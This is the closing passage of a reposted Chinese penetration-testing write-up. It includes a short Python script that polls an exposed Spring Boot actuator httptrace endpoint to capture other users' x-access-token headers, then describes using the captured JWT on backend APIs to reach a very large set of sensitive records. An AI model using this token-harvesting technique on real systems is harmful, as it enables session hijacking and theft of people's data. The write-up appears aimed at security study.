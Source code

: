 但是发现如图上方使用的鉴权header并不能直接进入到系统中  
  
刚开始怀疑是鉴权信息的过期时间设置的比较短，写了个脚本监控带有x-access-token的新增请求  
```
import requests
import time

monitored_text = ""

# URL
url = "http://xxxxx.xxxxx.com/xxxxxx/actuator/httptrace/"

while True:
    try:
        response = requests.get(url)
        page_text = response.text
        new_content = page_text[len(monitored_text):]

        # 检查新增的内容是否包含 "x-access-token" 字符串
        if "x-access-token" in new_content:
            current_time = time.strftime("%Y-%m-%d %H:%M:%S", time.localtime())
            print(f"新增的内容包含 'x-access-token' 于 {current_time}")
        monitored_text = page_text
        time.sleep(1)

    except Exception as e:
        print(f"error Info: {e}")

```  
  
最终成功拿到了一个可用的token，发现是JWT形式的-_-||...  
  
原来之前拿到的token是测试数据，难怪用不了  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONR7Vx0W1mUKttAgsfhiaaeHibJgpgeiayRzC4lsF7HuBicVMGiaJ0f56Gxb6pXmsvWVClyM0YhL98fgNYg/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
使用该JWT，通过webpack提取到的api，访问后端API，拿下大量敏感信息，达千万量级，防止burp卡死，仅列出部分  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONR7Vx0W1mUKttAgsfhiaaeHibnN4d0LRWjshicia1O9cW7dQvgVFOVcFAQ9AM3LAbiaFf7oKT0VoOwCvkQ/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
## 后言  
  
不断提升识别攻击面、利用攻击面的广度与深度，是一名hacker的核心素养  
  
攻防之中，拥有充足的经验，而又不陷入经验主义的迂腐，面对万难，而又不放弃思考，是出奇制胜的关键所在  
  
https://forum.butian.net/share/2596  
  
> **文章来源：奇安信攻防社区；作者：**  
**J0o1ey**  
  
  
  
黑白之道发布、转载的文章中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途及盈利等目的，否则后果自行承担！  
  
如侵权请私聊我们删文  
  
  
**END**  
  
  
